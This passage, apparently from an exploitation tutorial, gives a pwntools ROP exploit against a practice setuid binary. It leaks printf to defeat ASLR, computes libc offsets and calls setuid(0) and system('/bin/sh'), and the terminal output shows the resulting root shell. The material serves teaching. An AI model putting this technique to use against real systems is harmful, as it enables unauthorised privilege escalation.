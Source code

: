 ```python
pop_rdi = p64(0x40179b)
junk = "A" * 136

# Create the payload. This will print the address of printf to stdout and jump back to the main function.
payload = junk + pop_rdi + got_printf + plt_put + plt_main

# Send the payload, parse the printed address and store it.
p.sendline(payload)
p.recvuntil("denied.")
leaked_printf = p.recv()[:8].strip().ljust(8, "\00")
leaked_printf = u64(leaked_printf)
log.success("Leaked printf@GLIBC: " + hex(leaked_printf))

# Stage 2 (Obtaining the addresses and pwning)
libc_printf = 0x56440
libc_sys    = 0x48880
libc_exit   = 0x3dfc0
libc_sh     = 0x1881ac
libc_setuid = 0xcbbe0

# Calculate the the base address of libc
libc_main = leaked_printf - libc_printf
log.success("libc_main:" + hex(libc_main))

# Add the offsets to the base address to  obtain the addresses libc functions

sys = p64(libc_main + libc_sys)
sh = p64(libc_main + libc_sh)
setuid = p64(libc_main + libc_setuid)
# Setting 0 as the first argument to setuid will escalate to root priviliges
root = p64(0)

payload = junk + pop_rdi + root + setuid + pop_rdi + sh + sys

p.sendline(payload)
p.interactive()
```
<br>
Let's give full access to this folder and enable setuid for the binary and then switch to an unpriviledged user and test our exploit.
<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# chmod 755 * 
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# chmod u+s garbage 
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# su - krypt 
```
<br>
Run the exploit.
<br>
```terminal
krypt@kali:/root/Tuts/blogposts/smashbin/aslr_leak$ python exploit.py 
[+] Starting local process './garbage': pid 8264
[+] Leaked printf@GLIBC: 0x7f5b29523440
[+] libc_main:0x7f5b294cd000
[*] Switching to interactive mode
Enter access password: 
access denied.
$ whoami
root
$  
```
<br>